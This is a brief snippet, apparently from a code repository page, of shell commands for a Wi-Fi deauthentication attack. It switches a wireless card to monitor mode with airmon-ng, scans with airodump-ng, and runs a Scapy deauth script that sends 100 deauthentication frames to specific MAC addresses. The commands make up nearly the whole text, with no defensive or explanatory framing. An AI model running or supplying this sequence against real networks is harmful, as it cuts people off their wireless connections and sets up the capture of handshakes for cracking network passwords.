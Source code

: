 sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor

sudo airmon-ng start wlan0

airodump-ng wlan0mon

python scapy_deauth.py ea:de:ad:be:ef:ff 68:ff:7b:b7:83:be -i wlan0mon -v -c 100 --interval 0.1 

airmon-ng stop wlan0mon